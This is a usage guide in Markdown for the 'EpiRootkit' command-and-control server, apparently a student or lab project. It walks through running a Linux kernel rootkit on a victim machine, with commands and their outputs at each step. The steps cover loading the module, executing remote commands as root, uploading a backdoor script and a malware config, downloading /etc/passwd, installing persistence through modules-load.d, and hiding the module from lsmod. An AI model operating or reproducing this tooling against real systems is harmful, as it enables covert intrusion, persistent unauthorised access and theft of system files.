 ```yaml
---
title: "Usage Guide"
description: "Comprehensive usage scenarios and workflows"
icon: "menu_book"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 304
---
```


# Usage Guide

Complete workflows and usage scenarios for the EpiRootkit C2 server.

## Getting Started

### 1. Start the C2 Server
```bash
cd attacking_program
pnpm start
```

### 2. Wait for Rootkit Connection
```bash
# On victim machine
sudo insmod epirootkit.ko

# C2 server will show:
┌─ Client-1
  ✓ [2025-05-25 16:13:29] Connected
└─
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 <password> (default: password)
┌─ Client-1
  ✓ [2025-05-25 16:13:30] Authenticated
└─
```

#### Brute Force Protection

Rate limit to 5 attempts per 60 seconds.

## Basic Workflows

### Client Management Workflow

#### List and Monitor Clients
```bash
# List all connected clients
c2-server$ ls
┌─ Connected Clients
  • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
  • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM
└─

# Check specific client status
c2-server$ status Client-1
┌─ Client-1
  • [2025-05-25 16:13:30] Command result:
  • EpiRootkit Status:
  • Version: 1.0.0
  • Authentication: YES
  • Connection: CONNECTED
  • Module Hidden: YES
  • Encryption: DISABLED
  • Persistence: ENABLED
└─

# Monitor connection health
c2-server$ keepalive Client-1
┌─ Client-1
  • [2025-05-25 16:13:31] Command result:
  • Keepalive Status:
  • Last ping sent: 2025-05-25 16:14:00
  • Connection stable: YES
└─
```

### Command Execution Workflow

#### Basic System Commands
```bash
# Check user privileges
c2-server$ exec Client-1 whoami
┌─ Client-1
  • [2025-05-25 16:13:32] Command result:
  • root
└─

# System information
c2-server$ exec Client-1 uname -a
┌─ Client-1
  • [2025-05-25 16:13:33] Command result:
  • Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
└─

```


### File Transfer Workflow

#### Upload Files to Victim
```bash
# Upload a script
c2-server$ upload Client-1 ./scripts/backdoor.sh /tmp/backdoor.sh
┌─ File Upload
  • Uploading ./scripts/backdoor.sh → /tmp/backdoor.sh
  ✓ Upload initiated
└─

# Upload configuration
c2-server$ upload Client-1 ./configs/malware.conf /etc/malware.conf
┌─ File Upload
  • Uploading ./configs/malware.conf → /etc/malware.conf
  ✓ Upload initiated
└─

# Verify upload
c2-server$ exec Client-1 ls -la /tmp/backdoor.sh
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
```

#### Download Files from Victim
```bash
# Download sensitive files
c2-server$ download Client-1 /etc/passwd ./victim_passwd
┌─ File Download
  • Downloading /etc/passwd → ./victim_passwd
  ✓ Download request sent
└─
```

## Advanced Workflows

### Persistence Management

#### Install Persistence
```bash
# Interactive persistence menu
c2-server$ persist Client-1
┌─ Persistence Management - Client-1
  • Install All Methods
  • Remove All Methods
  • Install Specific Method
  • Show Status
  • Exit

? Select persistence action: Install All Methods
┌─ Installing Persistence
  • Installing all persistence mechanisms on Client-1...
  ✓ all persistence mechanisms installation command sent
└─

# Install specific method
c2-server$ persist Client-1 install modules
┌─ Installing Persistence
  • Installing modules-load.d persistence on Client-1...
  ✓ modules-load.d persistence installation command sent
└─
```


### Stealth Configuration

#### Interactive Configuration
```bash
c2-server$ config Client-1
┌─ Configuration - Client-1
  • Fetching current status...

  Current Configuration:
  [X] Module Hiding (Click to disable)
  [ ] Persistence (Click to enable)
  Refresh Status
  Exit

? Select option: [X] Module Hiding (Click to disable)
┌─ Configuration - Client-1
  • Applying configuration change...
  ✓ Configuration updated
└─
```

#### Manual Stealth Commands
```bash
# Hide module from lsmod
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show module)

# Enable hiding
c2-server$ status Client-1
# Check if "Module Hidden: YES"

# Verify hiding
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show no output if hidden)
```

